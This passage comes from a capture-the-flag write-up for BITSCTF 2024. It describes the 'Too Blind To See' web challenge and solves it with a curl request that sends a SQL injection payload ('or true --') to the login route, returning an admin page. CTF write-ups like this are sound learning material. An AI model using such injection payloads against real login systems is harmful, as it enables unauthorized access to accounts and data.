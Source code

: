 > Flag: BITSCTF{Juggling_With_Tokens:_A_Circus_of_RCE!}
{: .prompt-tip }

## Too Blind To See

### Description

Mogambro, our rookie intern, just stepped foot into the prestigious Software Firm. His big moment, the first project review, is knocking at the door like a pesky neighbor. But wait! Somewhere in his app lurks a secret which the admins are not aware of, hidden behind the password '**fluffybutterfly**'. Can you crack the code and rescue Mogambro from this password puzzle? The clock is ticking!

[http://20.244.82.82:7000/](http://20.244.82.82:7000/)

### Solution 

#### Approach 1

On `/login` route there's 2 ways to login, normal and admin. We already suspect that there's already an SQLi, but where? Challenge title is another hint, so probably blind SQLi.

Finding the payload to work was tricky even after CTF ended. Shout out to [daffainfo](https://daffa.info) for the help 👀.

![image](/assets/images/bitsctf/2024/bitsctf-web-1.png)

```bash
└─$ curl 'http://20.244.82.82:7000/yesyoudidit' -d "username='test' or true --&password="

            <p>Hello Admin. It's good to have you back</p>
            <h1>Here is the flag  BITSCTF{FAKE_FLAG}</h1>
```

DBMS seems SQLite3.

